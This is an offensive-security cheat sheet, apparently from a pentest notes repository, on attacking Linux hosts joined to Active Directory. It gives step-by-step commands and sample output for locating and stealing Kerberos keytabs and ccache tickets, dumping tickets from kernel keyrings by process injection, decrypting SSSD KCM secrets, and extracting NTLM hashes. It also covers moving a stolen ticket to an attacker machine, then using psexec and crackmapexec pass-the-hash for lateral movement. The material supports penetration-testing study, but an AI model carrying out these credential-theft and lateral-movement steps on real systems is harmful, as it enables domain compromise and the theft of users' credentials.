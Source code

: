 # Linux Active Directory

## Enumeration
#### Check if Linux host is AD Joined
- Check for file ```krb5.conf```
```
ls -lsa /etc/krb5.conf
cat /etc/krb5.conf
``` 

#### Check for keytab files
- And check who can acces the keytab files
- A keytab is a file containing pairs of Kerberos principals and encrypted keys that are derived from the Kerberos password. The most common use of keytab files is to allow scripts to authenticate to Kerberos without human interaction or without storing the password in a plain text file.
```
ls -lsa /etc/krb5.keytab

find / -name *.keytab*
ls -lsa <PATH TO FILE>
```

#### Check for ticket files
- Are normally stored in ```/tmp```
- Kerberos ticket name format is `krb5cc_%{uid}` where uid is the user UID. 
- To find the location where they are stored check the config file ```/etc/krb5.conf```
```
ls /tmp/ | grep krb5cc
```

#### Kernel Keys
- If tickets aren't saved in files they are saved in Linux Kernel Keys
- Can use https://github.com/TarlogicSecurity/tickey to convert them to files

## Reusing and abusing ccache and keytabs
### CCACHE ticket reuse from /tmp
- When tickets are set to be stored as a file on disk, the standard format and type is a CCACHE file. This is a simple binary file format to store Kerberos credentials. These files are typically stored in ```/tmp``` and scoped with 600 permissions

#### List the current ticket used for authentication 
```
env | grep KRB5CCNAME
````

#### Reuuse ticket
```
export KRB5CCNAME=/tmp/ticket.ccache
```

### Convert ccache to kirbi
```
impacket-ticketConverter krb5cc_<ID> <KIRBI FILE>
```

### CCACHE ticket reuse from Kernel Keys
- Tool to extract Kerberos tickets from Linux kernel keys : https://github.com/TarlogicSecurity/tickey
```
# Configuration and build
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release

[root@Lab-LSV01 /]# /tmp/tickey -i
[*] krb5 ccache_name = KEYRING:session:sess_%{uid}
[+] root detected, so... DUMP ALL THE TICKETS!!
[*] Trying to inject in tarlogic[1000] session...
[+] Successful injection at process 25723 of tarlogic[1000],look for tickets in /tmp/__krb_1000.ccache
[*] Trying to inject in velociraptor[1120601115] session...
[+] Successful injection at process 25794 of velociraptor[1120601115],look for tickets in /tmp/__krb_1120601115.ccache
[*] Trying to inject in trex[1120601113] session...
[+] Successful injection at process 25820 of trex[1120601113],look for tickets in /tmp/__krb_1120601113.ccache
[X] [uid:0] Error retrieving tickets
```

### CCACHE ticket reuse from SSSD KCM
- https://github.com/fireeye/SSSDKCMExtractor
- SSSD maintains a copy of the database at the path `/var/lib/sss/secrets/secrets.ldb`. 
- The corresponding key is stored as a hidden file at the path `/var/lib/sss/secrets/.secrets.mkey`. 
- By default, the key is only readable if you have **root** permissions.
- Invoking `SSSDKCMExtractor` with the --database and --key parameters will parse the database and decrypt the secrets.
```
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```

- The credential cache Kerberos blob can be converted into a usable Kerberos CCache file that can be passed to Mimikatz/Rubeus.


### CCACHE ticket reuse from keytab
- https://github.com/its-a-feature/KeytabParser
```
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```

#### Manually use keytab file
- Request CIFS TGS to abuse it with secretsdump or psexec on attacking machine
```
kinit -k -t <KEYTAB FILE> <USER>
kvno CIFS/\<DC NAME>
klist
base64 </tmp/TICKET CACHE>

# ON ATTACKER MACHINE
echo "<BASE64 STRING>" | base64 -d > ticket.ccache
export KRB5CCNAME=ticket.ccache
python3 psexec -k -no-pass 
```


### Extract accounts from /etc/krb5.keytab
- The service keys used by services that run as root are usually stored in the keytab file ```/etc/krb5.keytab```. This service key is the equivalent of the service's password, and must be kept secure. 

Use [`klist`](https://adoptopenjdk.net/?variant=openjdk13&jvmVariant=hotspot) to read the keytab file and parse its content. The key that you see when the [key type](https://cwiki.apache.org/confluence/display/DIRxPMGT/Kerberos+EncryptionKey) is 23  is the actual NT Hash of the user.

```
$ klist.exe -t -K -e -k FILE:C:\Users\User\downloads\krb5.keytab
[...]
[26] Service principal: host/COMPUTER@DOMAIN
	 KVNO: 25
	 Key type: 23
	 Key: 31d6cfe0d16ae931b73c59d7e0c089c0
	 Time stamp: Oct 07,  2019 09:12:02
[...]
```

#### KeytabExtract
- On Linux you can use [`KeyTabExtract`](https://github.com/sosdave/KeyTabExtract): we want RC4 HMAC hash to reuse the NLTM hash.

```
python3 keytabextract.py krb5.keytab 
[!] No RC4-HMAC located. Unable to extract NTLM hashes. # No luck
[+] Keytab File successfully imported.
        REALM : DOMAIN
        SERVICE PRINCIPAL : host/computer.domain
        NTLM HASH : 31d6cfe0d16ae931b73c59d7e0c089c0 # Lucky
```

#### Connect to the machine with CME.
```
crackmapexec <IP> -u '<COMPUTER ACCOUNT $>' -H "<HASH>" -d <DOMAIN> 
```
